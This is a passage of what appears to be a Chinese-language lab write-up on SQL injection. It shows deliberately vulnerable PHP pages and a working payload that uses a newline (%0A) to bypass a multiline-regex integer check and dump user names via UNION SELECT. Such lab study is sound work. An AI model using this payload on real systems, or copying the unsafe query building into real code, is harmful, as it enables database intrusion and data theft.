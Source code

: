 ```php
<?php

  require_once('../header.php');
  require_once('db.php');
    if (!preg_match('/^-?[0-9]+$/m', $_GET["id"])) {
        die("ERROR INTEGER REQUIRED");  
    }
    $sql = "SELECT * FROM users where id=";
    $sql .= $_GET["id"];
    
    $result = mysql_query($sql);

    if ($result) {
        ?> 
        <table class='table table-striped'> 
      <tr> <th> id</th> <th> name</th> <th> age</th> </tr> 
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr> ";
                echo "<td> ".$row['id']."</td> ";
                echo "<td> ".$row['name']."</td> ";
                echo "<td> ".$row['age']."</td> ";
            echo "</tr> ";
        }   
        echo "</table> ";
    }
    require '../footer.php';
?> 
```
发现/m可以匹配多行
![图像 1.png](http://upload-images.jianshu.io/upload_images/4838174-948a16d29fd3b082.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
查到%0A可以结尾每行，试试上payload

> http://192.168.132.131/sqli/example7.php?id=2%0aunion%0aall%0aselect%0a1,group_concat(name),3,4,5%0afrom%0ausers# 直接爆出来

###  example8
```php
<?php

  require_once('../header.php');
  require_once('db.php');
    $sql = "SELECT * FROM users ORDER BY `";
    $sql .= mysql_real_escape_string($_GET["order"])."`";
    $result = mysql_query($sql);
    
    if ($result) {
        ?> 
        <table  class='table table-striped'> 
        <tr> 
            <th> <a href="example8.php?order=id"> id</th> 
            <th> <a href="example8.php?order=name"> name</th> 
            <th> <a href="example8.php?order=age"> age</th> 
        </tr> 
        <?php
        while ($row = mysql_fetch_assoc($result)) {
            echo "<tr> ";
                echo "<td> ".$row['id']."</td> ";
                echo "<td> ".$row['name']."</td> ";
                echo "<td> ".$row['age']."</td> ";
            echo "</tr> ";
        }   
        echo "</table> ";
```